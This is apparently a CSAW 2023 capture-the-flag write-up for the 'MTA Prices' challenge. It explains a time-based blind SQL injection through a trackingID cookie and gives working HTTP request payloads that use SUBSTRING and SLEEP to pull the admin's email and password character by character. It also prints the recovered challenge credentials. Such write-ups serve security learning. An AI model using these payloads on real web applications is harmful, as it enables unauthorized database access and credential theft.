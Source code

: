 # CSAW 2023

# MTA Prices

> Time-based SQli
> 

## How to identify

You can leverage the trackID in the cookie to manipulate the content of the **session,** which the server sends to us in the response header:

Also, if we modify the trackID to an unintended one, the value of the email field in the **session** will be "**Error**".

Importantly, this is a point where we can manipulate user input to get anomalies.

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled.png)

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%201.png)

## Proof of Concept

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBk'+sleep(5)+'O4Fp2KuGsB;
Connection: keep-alive
```

The email showing no error means the SQL commands have been successfully executed.

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%202.png)

## Exploitation

Replace the [ARG1](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/1-20.list) and [ARG2](https://github.com/superboy-zjc/CTF-Writeups/blob/main/CSAW%202023/allprintable.list) with your dictionaries…

> ARG1: numbers from 1 to 20
ARG2: all the printable characters: ASCII 32 - 126

**Get admin’s email:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(email,${ARG1},1) from users where privilege LIKE 'admin%' limit 0,1)=binary('${ARG2}'),SLEEP(10),'a'))+';
Connection: keep-alive
```

**Get admin’s password:**

```php
GET / HTTP/1.1
Host: web.csaw.io:5800
Cookie: trackingID=lAApPkDuBkO4Fp2KuGsB'+(SELECT IF((select SUBSTRING(password,${ARG1},1) from users where email='emily.brown@mta.com' limit 0,1)=binary('${ARG2}'),SLEEP(1),'a'))+';
Connection: keep-alive

```

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%203.png)

```php
mail - > emily.brown@mta.com
password -> p#2r@5ml8q7v!9x$1
```

![Untitled](CSAW%202023%203c061646845f4714ac760b5451fe928d/Untitled%204.png)

# Reference

[https://www.kirsle.net/wizards/flask-session.cgi](https://www.kirsle.net/wizards/flask-session.cgi)

[https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL Injection/MySQL Injection.md#extract-database-with-information_schema](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#extract-database-with-information_schema)

[https://superboy-zjc.github.io/2020/08/05/阶段四、Web渗透测试/7、SQL注入/#二、SQL注入的注入点](https://superboy-zjc.github.io/2020/08/05/%E9%98%B6%E6%AE%B5%E5%9B%9B%E3%80%81Web%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95/7%E3%80%81SQL%E6%B3%A8%E5%85%A5/#%E4%BA%8C%E3%80%81SQL%E6%B3%A8%E5%85%A5%E7%9A%84%E6%B3%A8%E5%85%A5%E7%82%B9)